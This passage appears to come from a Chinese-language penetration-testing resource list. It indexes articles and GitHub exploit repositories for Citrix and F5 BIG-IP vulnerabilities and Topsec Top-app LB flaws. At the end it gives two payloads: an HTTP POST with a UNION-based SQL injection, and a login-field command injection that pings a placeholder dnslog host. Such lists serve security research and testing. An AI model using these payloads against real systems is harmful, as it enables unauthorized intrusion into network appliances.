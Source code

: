 - POC | Payload | exp
    - [trustedsec/cve-2019-19781](https://github.com/trustedsec/cve-2019-19781)
    - [jas502n/CVE-2019-19781](https://github.com/jas502n/CVE-2019-19781)

#### F5 BIG-IP

**CVE-2020-5902 F5 BIG-IP 远程代码执行漏洞**
- 相关文章
    - [CVE-2020-5902——关于;号绕过认证技巧总结](https://mp.weixin.qq.com/s/JnI4f3R5JZqhLFv_fTQ_0A)
    - [F5 BIG-IP Remote Code Execution Exploit - CVE-2020-5902 | Critical Start](https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/)

- POC | Payload | exp
    - [jas502n/CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)
    - [theLSA/f5-bigip-rce-cve-2020-5902](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902)

**CVE-2021-22986 F5 BIG-IP RCE**
- 相关文章
    - [CVE-2021-22986：BIG-IP/BIG-IQ未授权RCE](https://mp.weixin.qq.com/s/-WScu2pgUjvjEqWKt5f19A)
    - [F5 BIG-IP CVE-2021-22986 验证及利用](https://mp.weixin.qq.com/s/lPTSPB_JMO9DxBaKxF61GA)

- POC | Payload | exp
    - [h4x0r-dz/RCE-Exploit-in-BIG-IP](https://github.com/h4x0r-dz/RCE-Exploit-in-BIG-IP)
    - [Al1ex/CVE-2021-22986](https://github.com/Al1ex/CVE-2021-22986)

**CVE-2022-1388 F5 BIG-IP iControl REST 处理进程分析与认证绕过漏洞**
- 镜像下载
    - https://downloads.f5.com/esd/ecc.sv?sw=BIG-IP&pro=big-ip_v15.x&ver=15.1.5&container=15.1.5.1_Virtual-Edition

- 相关文章
    - [F5 iControl REST Endpoint Authentication Bypass Technical Deep Dive](https://www.horizon3.ai/f5-icontrol-rest-endpoint-authentication-bypass-technical-deep-dive/)
    - [CVE-2022-1388 F5 BIG-IP iControl REST 处理进程分析与认证绕过漏洞复现](https://mp.weixin.qq.com/s/DR0RGE0lhBjBIF3TbDLhMw)
    - [F5 BIG-IP本地环境搭建以及CVE-2022-1388复现](https://mp.weixin.qq.com/s/gDXu1WLz3O74c3TqLT7p_g)

#### 天融信 Top-app LB

**SQL注入漏洞**
- POC | Payload | exp
    - [天融信Top-app LB负载均衡SQL注入漏洞](https://www.hedysx.com/2601.html)
        ```
        POST /acc/clsf/report/datasource.php HTTP/1.1
        Content-Type: application/x-www-form-urlencoded

        t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22-- &o=r_Speed&gid=0&lmt=10&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=
        ```

**未授权**
- POC | Payload | exp
    - [天融信负载均衡TopApp-LB系统无需密码直接登录](https://www.uedbox.com/post/21626/)
        ```
        登录框
        ; ping xxx.dnslog.info; echo
        ```
